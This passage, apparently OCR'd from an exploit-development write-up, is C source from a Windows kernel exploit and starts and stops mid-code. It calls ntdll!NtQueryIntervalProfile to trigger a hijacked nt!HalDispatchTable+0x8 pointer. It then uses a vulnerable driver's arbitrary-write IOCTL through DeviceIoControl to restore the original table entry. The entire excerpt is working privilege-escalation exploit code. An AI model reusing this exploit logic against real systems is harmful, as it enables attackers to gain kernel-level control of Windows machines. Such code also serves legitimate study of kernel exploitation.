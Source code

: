 ```c
                  GetModuleHandle(
                    TEXT("ntdll.dll")),
                  "NtQueryIntervalProfile"
                );

                // Error handling
                if (!NtQueryIntervalProfile)
                {
                  printf("[-] Error! Unable to find ntdll!NtQueryIntervalProfile! Error: %d\n", GetLastError());
                  exit(1);
                }
                else
                {
                  // Print update for found ntdll!NtQueryIntervalProfile
                  printf("[+] Located ntdll!NtQueryIntervalProfile at: 0x%llx\n", NtQueryIntervalProfile);

                  // Calling nt!NtQueryIntervalProfile
                  ULONG exploit = 0;

                  NtQueryIntervalProfile(
                    0x1234,
                    &exploit
                  );

                  // Restoring nt!HalDispatchTable+0x8
                  // Buffer to send to the driver (write primitive)
                  unsigned long long inBuf16[4];

                  // Values to send
                  unsigned long long one16 = 0x4141414141414141;
                  unsigned long long two16 = halDispatch;
                  unsigned long long three16 = 0x0000000000000000;
                  unsigned long long four16 = preservedHal;

                  // Assign the values
                  inBuf16[0] = one16;
                  inBuf16[1] = two16;
                  inBuf16[2] = three16;
                  inBuf16[3] = four16;

                  // Interact with the driver
                  DWORD bytesReturned16 = 0;

                  BOOL interact15 = DeviceIoControl(
                    driverHandle,
                    IOCTL_WRITE_CODE,
                    &inBuf16,
                    sizeof(inBuf16),
                    &inBuf16,
                    sizeof(inBuf16),
                    &bytesReturned16,
                    NULL
                  );

                  // Error handling
                  if (!interact15)
                  {
                    printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
                  }
                  else
```